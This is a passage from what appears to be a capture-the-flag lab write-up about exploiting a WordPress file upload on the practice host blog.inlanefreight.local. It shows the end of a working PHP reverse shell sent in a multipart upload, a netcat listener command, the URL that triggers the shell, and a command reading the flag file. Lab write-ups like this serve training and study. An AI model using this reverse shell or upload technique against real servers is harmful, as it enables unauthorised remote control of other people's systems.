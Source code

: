 ```html
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
-----------------------------11335875238744126981755578650
Content-Disposition: form-data; name="postId"

1
-----------------------------11335875238744126981755578650--
```

The server return the target location of the upload. Now in our kali attacker machine:

```
nc -lnvp 1234
```

And we browse to http://blog.inlanefreight.local/wp-content/uploads/2025/02/mala-1738507185.1412.php to receive the reverse shell. Now, from the terminal we browse around and print out the flag:

```
cat /var/www/blog.inlanefreight.local/flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
```
